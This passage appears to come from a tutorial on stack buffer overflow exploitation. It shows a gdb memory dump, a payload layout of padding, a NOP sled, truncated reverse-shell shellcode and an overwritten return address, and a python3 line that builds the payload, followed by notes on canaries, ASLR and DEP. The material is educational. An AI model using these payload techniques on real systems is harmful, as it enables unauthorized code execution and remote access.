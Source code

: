 ```shell
0xffffd654: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd65c: 0x90 0x90 0xda 0xca 0xba 0xe4 0x11 0xd4
       # |---> Shellcode
<SNIP>
```

Here, we can select for example the position `0xffffd64c`. Now the payload will be:

```shell
Buffer = "\x55" * (1040 - 100 - 95 - 4) = 841
NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
EIP = "\x4c\xd6\xff\xff"
```

Note that the input of the address is entered backwards.

Since the shellcode is a reverse shell, when the payload is executed, we'll get a connection in the other side.

## Prevention techniques and mechanisms

The best protection against buffer overflows is security-conscious programming. However, there are some mechanisms that will help with buffer overflow vulnerabilities.

- Canaries: canaries are known values written to the stack between buffer and control data to detect overflows. If a buffer overflow happens, the known values of the canaries will be altered and the operating system will detect that canary is overwitten.

- Address Space Layout Randomization (ASLR): it makes difficult to find addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us.

- Data Execution Prevention (DEP): programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.

## Python2 vs Python3

All previous usages of `python` are Python2.x. In python 3.x `print` function re-encodes the bytes. For example: it will re-encode the Unicode '\x90' and may produce 0xC2 0x90 instead of 0x90.

For python3 it is better to generate a binary file and pass the contents of it to the gdb run command. For example:

```shell
python3 -c "open('/tmp/p.bin','wb').write(b'\x55'*1960 + b'\x90'*100 + b'\x66'*4)"
r $(cat /tmp/p.bin)
```

## gdb or normal execution

Bear in mind that when the program is run from `gdb`, the user that is running the program might be different than the normal execution. In some example the binary will lead to root access while running the binary from gdb will lead to normal user.
